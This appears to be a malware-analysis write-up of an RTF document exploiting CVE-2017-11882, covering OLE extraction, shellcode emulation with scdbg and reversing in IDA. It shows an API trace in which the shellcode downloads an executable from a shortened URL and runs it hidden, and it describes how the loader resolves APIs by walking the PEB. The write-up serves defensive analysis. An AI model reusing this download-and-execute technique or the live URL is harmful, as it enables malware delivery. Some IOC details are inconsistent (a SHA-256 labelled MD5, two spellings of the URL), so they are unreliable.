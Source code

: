 ```yaml
---
title: RTF Exploit
date: 2025-08-30
categories:
  - Malware Analysis
  - Reports
tags:
  - cve-2017-11882
toc: "true"
---
```

The suspicious sample under analysis is an **RTF document** designed to embed and execute malicious OLE objects. As with any document-based malware, the first step is to calculate its hashes and collect metadata for identification.

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | RTF Document                                                     |
| **MD5**       | 2fd300bd01ea3d00ea59d4e1d47056a0                                 |
| **SHA-1**     | d8747407679055deee5bafaac281bdac52274da2                         |
| **SHA-256**   | 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762 |
| **File Size** | 1.02 MB (1065166 bytes)                                          |

Once submitted to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an embedded OLE exploit.

![virustotal.png](assets/img/posts/malware/rtf-malware/virustotal.png)

Static inspection confirmed that the RTF contained at least one **suspicious OLE object**. This hinted that the exploit would likely rely on embedded shellcode delivered via OLE streams.

### Extracting the OLE Object

We used **rtfobj.py** to scan the malicious RTF document and extract any embedded OLE streams:

```cmd
C:\Users\vboxuser\Desktop>python "C:\Users\vboxuser\Desktop\Tools\Documents
oletools-0.60.2\oletools\rtfobj.py" 
"C:\Users\vboxuser\Desktop\Master\Tarea3
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf" 
-s 0 -d C:\Users\vboxuser\Desktop\Master\Tarea3
```

The output revealed a malformed OLE object at offset `0x000FC3E7`, which was dumped as:

```
...rtf_object_000FC3E7.raw (md5: 2fe51e42ac2a4a52d1855e21620e9c6f)
```

![rtfobj.png](/assets/img/posts/malware/rtf-malware/rtfobj.png)

One check to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an exploit for a 2017 CVE.

![virustotal-raw.png](assets/img/posts/malware/rtf-malware/virustotal-raw.png)

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | Data                                                             |
| **MD5**       | 2fe51e42ac2a4a52d1855e21620e9c6f                                 |
| **SHA-1**     | af8eda0e5881952b5828d143de1bd45ced8f8717                         |
| **SHA-256**   | 280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb |
| **File Size** | 1.34 KB (1372 bytes)                                             |
## Shellcode Analysis with `scdbg`

The extracted OLE object contained embedded shellcode. To better understand its behavior, we emulated the payload using **scdbg**.

Execution began at offset `0x7C` (VA `0x40107C`) with the following instructions:

```
40107C   42      inc edx
40107D   19F9    sbb ecx,edi
40107F   0BE1    or esp,ecx
401081   F8      clc
401082   793B    jns 0x4010BF
```

This sequence rearranges registers in preparation for deobfuscation.

During execution, the shellcode dynamically resolved several Windows APIs, a common tactic to avoid static detection. The following calls were observed:

- `GetProcAddress(ExpandEnvironmentStringsW)`
- `ExpandEnvironmentStringsW(%PUBLIC%\908.exe, dst=12fbd0, sz=104)`
- `LoadLibraryW("UrlMon")`
- `GetProcAddress(URLDownloadToFileW)`
- `URLDownloadToFileW("http://bit.ly/34vzFlU", "C:\Users\Public\908.exe")`
- `LoadLibraryW("oleaut32")` and `GetProcAddress(SysAllocString)`

![scdbg.png](/assets/img/posts/malware/rtf-malware/scdbg.png)

This confirms the shellcode’s functionality: it constructs a destination path in `%PUBLIC%`, downloads a remote executable from a shortened URL, and prepares it for execution.

## Reversing the Shellcode

To deepen the analysis, we manually reversed the shellcode to better understand its structure and techniques. As expected, the code follows the typical pattern of most download-and-execute shellcodes, but with some tricks to hinder analysis: it is position-independent and padded with junk instructions.

When loaded into **IDA**, some sections were misinterpreted as code or data. To fix this, we had to manually redefine certain areas, step through execution instruction by instruction, and set breakpoints until the flow became clear.

The shellcode can be divided into three main sections:

1. **Garbage padding** (`0x0000–0x007B` and `0x010E–0x02BB`)  
    Random bytes, `int 3`, `hlt`, and assorted `db`/`dw` instructions that IDA failed to properly disassemble. These do not execute if the **EIP** lands correctly.
    
2. **Executable junk & jump** (`0x007C–0x0108`)  
    Useless obfuscation loops and a final `jmp 0x02BC` redirecting execution to the real payload.
    
3. **Payload** (`0x02BC–0x0558`)  
    The real malicious logic: stack setup, manual API resolution, downloading an executable, and launching it in the background.
    

![peb.png](/assets/img/posts/malware/rtf-malware/peb.png)

Once the flow was reconstructed, we saw the shellcode walking the **PEB (`fs:[30h]`)** to locate `kernel32.dll`. From there, it invoked a custom implementation of `GetProcAddress` to resolve its APIs:

```
LoadLibraryW
ExpandEnvironmentStringsW
UrlDownloadToFileW
WinExec
ExitProcess
```

![sub498.png](/assets/img/posts/malware/rtf-malware/sub498.png)

The function responsible for string comparisons (`sub_498`) performed case-insensitive matching in wide-char, converting characters on the fly with a simple `xor ax, 0x20` whenever the character was between `'A'` and `'Z'`. This allowed the shellcode to reliably resolve function names without depending on exact casing.

Once the API resolution was complete, execution moved into the **download phase**. First, the destination path was constructed using `ExpandEnvironmentStringsW` as `%PUBLIC%\908.exe`. Next, the URL (`hxxp://bit.ly/34vzFU`) was pushed onto the stack in fragmented form, hidden across multiple `push` instructions. Finally, the shellcode invoked `UrlDownloadToFileW(NULL, url, destino, 0, NULL)` to retrieve the binary, proceeding only if the call returned `S_OK`.

If the download succeeded, the **execution phase** began: the binary was launched silently with `WinExec(destino, SW_HIDE)`, and the shellcode immediately terminated the current process with `ExitProcess(0)`.

Overall, more than half of the shellcode turned out to be padding and obfuscation, while the actual functionality resided in a compact position-independent loader. Its role was simple but effective: dynamically resolve APIs, construct the target path, download a remote executable, and execute it quietly before exiting. By setting the instruction pointer directly to `0x02BC`, analysts can skip all the junk code and observe the core payload in action. The main difficulty during reversing was correcting IDA’s misinterpretations caused by the interleaving of junk instructions and data, which required manual adjustments to accurately follow the control flow.

## Indicators of Compromise (IOCs)

The following IOCs were extracted from the RTF malware sample:

| Type               | Value                                                                       |
| ------------------ | --------------------------------------------------------------------------- |
| **MD5 (RTF)**      | `2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762`          |
| **OLE Object MD5** | `2fe51e42ac2a4a52d1855e21620e9c6f`                                          |
| **Dropped File**   | `%PUBLIC%\908.exe`                                                          |
| **Malicious URL**  | `hxxp://bit.ly/34vzFU`                                                      |

